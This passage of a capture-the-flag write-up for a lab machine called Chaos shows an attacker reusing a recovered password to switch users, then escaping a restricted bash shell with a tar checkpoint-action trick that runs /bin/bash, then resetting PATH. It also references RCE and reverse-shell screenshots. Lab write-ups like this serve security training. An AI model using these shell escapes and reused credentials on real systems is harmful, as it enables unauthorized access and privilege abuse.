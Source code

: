 ![alt text](WriteUp/Chaos/Images/RCE.png)

![alt text](WriteUp/Chaos/Images/rev.png)

# Shell

We can try the previous credentials used for `ayush mail`.

```bash
$ su ayush
Password: jiujitsu
ayush@chaos:/home$
```

Ayush has a `restricted shell`, but he can run the `tar` command. We can spawn a shell with this command : https://gtfobins.github.io/gtfobins/tar/

```bash
$ ls
rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
$ tar cf /dev/null rick.tar --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

Upgrade the `PATH`...

```bash
ayush@chaos:/home$ export PATH=/bin:$PATH
ayush@chaos:/home$ export PATH=/usr/bin:$PATH
ayush@chaos:/home$ id
uid=1001(ayush) gid=1001(ayush) groups=1001(ayush)
```
